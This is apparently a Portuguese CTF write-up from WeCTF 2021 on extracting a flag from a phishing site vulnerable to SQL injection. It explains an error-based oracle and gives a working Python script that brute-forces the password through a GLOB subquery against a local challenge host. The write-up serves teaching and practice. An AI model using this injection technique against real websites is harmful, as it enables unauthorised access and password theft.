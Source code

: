 Esse desafio é interessante: a vítima dos desafios, Shou, caiu num site de phishing que não é nosso! Mas o site de phishing em si é vulnerável à SQLi, e sabendo disso, nosso objetivo é extrair a senha dele (a flag) desse site. Para esse caso, o código fonte nos mostra algo interessante: se a query para o banco de dados tiver algum tipo de erro, esse erro será retornado na tela, caso contrário, a query passa e ele redirecionará para a página que mostra que você teve sua senha roubada.

![Código Fonte do Desafio](/blog/writeup-wectf-2021/source_code_phish.png)

O site não possui nenhum tipo de reflexão de dados na tela, então algum tipo de SQLi que retorne a senha na tela é inviável. No entanto, podemos fazer diferente: como somente erros aparecem na tela, podemos fazer bruteforce da senha injetando uma query que insira uma senha no BD *se e somente se* nosso palpite for uma parte da senha do Shou. Para fazer isso, escrevi o pequeno script abaixo, cujo payload do SQLi e detalhes eu vou descrever melhor abaixo.

```py
from requests import *

if __name__ == '__main__':
    host = "127.0.0.1:4008"
    s = session()

    passwd = "we{"
    name = "nomedeusuario"

    char = '+'
    while '}' not in passwd:

        if char == '?':
            char = chr(ord(char) + 1)

        passwd_iteration = passwd + char
        sqli = f"qqrcoisa',( SELECT password FROM user WHERE username='shou' AND password GLOB '{passwd_iteration}*' ));--"

        form_data = {
            "username": name,
            "password": sqli
        }
        result = s.post(f"http://{host}/add",data=form_data)

        if b"Your password is leaked" in result.content or b"UNIQUE constraint failed" in result.content:
            passwd += char
            char = '+'
            print(f"> HIT: {passwd}")

        elif b"NOT NULL constraint failed" in result.content:
            # print(f"> NOT HIT: {passwd + char}")
            char = chr(ord(char) + 1)
```
